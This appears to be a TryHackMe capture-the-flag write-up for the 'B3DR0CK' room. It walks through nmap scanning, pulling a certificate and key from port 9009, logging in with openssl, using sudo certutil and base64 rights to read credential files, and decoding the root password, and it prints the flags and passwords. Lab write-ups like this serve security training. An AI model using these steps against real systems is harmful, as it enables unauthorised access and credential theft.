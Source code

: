 B3DR0CK

$IP 10.10.159.2

scan IP by suing NMAP

nmap -sCV -vv $IP -oN nmap.txt

22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
9009/tcp open  pichat? syn-ack ttl 63
Discovered open port 54321/tcp on 10.10.159.2
Discovered open port 4040/tcp on 10.10.159.2




let hit 10.10.159.2 on web browser 
it redirect to the https://10.10.159.2:4040

wich contain

Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...

let find the certificate on 9009 port 


sudo nc -v 10.10.159.2 9009
 search ssh key and certificate 

![Screenshot 2022-09-06 at 01 28 32](https://user-images.githubusercontent.com/49148722/188754812-4dfd8daf-e2bf-4d42-ae31-51831900d156.png)
![Screenshot 2022-09-06 at 01 28 46](https://user-images.githubusercontent.com/49148722/188754818-24c4a36b-ffa2-42e4-aadb-295c502b53a3.png)

 save bothe file and use in 54321 to gain access 

use openssl

openssl s_clint -connect $IP -cert certificate -key key


i found the password hint 
d1ad7c0a3805955a35eb260dab4180dd for Barney Rubble



![Screenshot 2022-09-06 at 01 30 16](https://user-images.githubusercontent.com/49148722/188754696-912be00b-9026-44a4-b98e-4c900be1a02d.png)


What is the barney.txt flag? 

THM{f05780f08f0eb1de65023069d0e4c90c}

![Screenshot 2022-09-06 at 01 30 25](https://user-images.githubusercontent.com/49148722/188754720-df71bcb8-faa2-4dfe-8724-879792a93676.png)

What is fred's password?
 
 let jump into find the fred certificate and the key
 	sudo -l
 			User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil

 sudo /usr/bin/certutil ls

Current Cert List: (/usr/share/abc/certs)
------------------
total 56
drwxrwxr-x 2 root root 4096 Apr 30 21:54 .
drwxrwxr-x 8 root root 4096 Apr 29 04:30 ..
-rw-r----- 1 root root  972 Sep  5 23:19 barney.certificate.pem
-rw-r----- 1 root root 1678 Sep  5 23:19 barney.clientKey.pem
-rw-r----- 1 root root  894 Sep  5 23:19 barney.csr.pem
-rw-r----- 1 root root 1674 Sep  5 23:19 barney.serviceKey.pem
-rw-r----- 1 root root  976 Sep  5 23:19 fred.certificate.pem
-rw-r----- 1 root root 1674 Sep  5 23:19 fred.clientKey.pem
-rw-r----- 1 root root  898 Sep  5 23:19 fred.csr.pem
-rw-r----- 1 root root 1674 Sep  5 23:19 fred.serviceKey.pem

save the fret certificate.pem in two file 

![Screenshot 2022-09-06 at 01 30 59](https://user-images.githubusercontent.com/49148722/188755142-ca25d75c-e66d-402f-84f5-f80f82b40ac3.png)

and sun openssl to see password hint 

![Screenshot 2022-09-06 at 01 31 24](https://user-images.githubusercontent.com/49148722/188755211-f7cb3404-32d5-4ca6-ab87-a1ed970282b3.png)

Password hint: YabbaDabbaD0000! (user = 'fredcertificatepem')


![Screenshot 2022-09-06 at 01 31 42](https://user-images.githubusercontent.com/49148722/188755223-3dd786da-c44d-40c5-9d22-2254a17044d7.png)



What is the fred.txt flag?

![Screenshot 2022-09-06 at 01 31 49](https://user-images.githubusercontent.com/49148722/188755234-3d6931e8-6317-4a2c-9a4f-94f2fddbb47a.png)


THM{08da34e619da839b154521da7323559d}

What is the root.txt flag?

![Screenshot 2022-09-06 at 01 30 35](https://user-images.githubusercontent.com/49148722/188755263-9cc31943-7694-40f3-b4ed-134641242075.png)

sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt

 sudo /usr/bin/base64 /root/pass.txt

TEZLRUM1MlpLUkNYU1dLWElaVlU0M0tKR05NWFVSSlNMRldWUzUyT1BKQVhVVExOSkpWVTJSQ1dOQkdYVVJUTEpaS0ZTU1lLCg==

![Screenshot 2022-09-06 at 01 32 12](https://user-images.githubusercontent.com/49148722/188754940-ce62c2ed-d305-4ec5-a152-c688b2dfe24b.png)


echo "TEZLRUM1MlpLUkNYU1dLWElaVlU0M0tKR05NWFVSSlNMRldWUzUyT1BKQVhVVExOSkpWVTJSQ1dOQkdYVVJUTEpaS0ZTU1lLCg==" | base64 -d                    
LFKEC52ZKRCXSWKXIZVU43KJGNMXURJSLFWVS52OPJAXUTLNJJVU2RCWNBGXURTLJZKFSSYK

decode with base32

![Screenshot 2022-09-06 at 01 32 34](https://user-images.githubusercontent.com/49148722/188754961-033b907b-d78d-46ef-8217-c9ff8e23c15a.png)

YTAwYTEyYWFkNmI3YzE2YmYwNzAzMmJkMDVhMzFkNTYK


decode with base64

![Screenshot 2022-09-06 at 01 32 39](https://user-images.githubusercontent.com/49148722/188754978-3a29cc20-d0c2-4bc9-a207-238b40a1067b.png)

a00a12aad6b7c16bf07032bd05a31d56


its MD5 hase now decode by using online tools

flintstonesvitamins

lets use this password on root command 

cat /root/root.txt

![Screenshot 2022-09-06 at 01 32 54](https://user-images.githubusercontent.com/49148722/188754887-de21115f-20a3-4559-a93a-06a34344aceb.png)

THM{de4043c009214b56279982bf10a661b7}

